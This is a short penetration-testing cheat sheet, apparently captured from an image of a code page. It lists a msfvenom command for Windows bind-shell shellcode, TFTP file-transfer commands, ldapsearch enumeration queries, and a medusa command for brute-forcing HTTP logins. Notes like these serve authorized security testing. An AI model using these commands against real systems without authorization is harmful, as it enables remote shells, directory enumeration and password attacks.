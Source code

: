 [+] Metasploit Shellcode
msfvenom -p windows/shell_bind_tcp -b '\x00\x0a\x0d'

-------------------------------------------------------------------------- File Transfer Services

[+] Start TFTPD Server
atftpd --daemon --port 69 /tmp

[+] Connect to TFTP Server
tftp 192.168.0.10
put / get files

-------------------------------------------------------------------------- LDAP Querying

Tools:
ldapsearch
LDAPExplorertool2

Anonymous Bind:
ldapsearch -h ldaphostname -p 389 -x -b "dc=domain,dc=com"

Authenticated:
ldapsearch -h 192.168.0.60 -p 389 -x -D "CN=Administrator, CN=User, DC=<domain>, DC=com" -b "DC=<domain>, DC=com" -W

Useful Links:
http://www.lanmaster53.com/2013/05/public-facing-ldap-enumeration/
http://blogs.splunk.com/2009/07/30/ldapsearch-is-your-friend/


-------------------------------------------------------------------------- Password Attacks

[+] Bruteforcing http password prompts
medusa -h <ip/host> -u <user> -P <password list> -M http -n <port> -m DIR:/<directory> -T 30

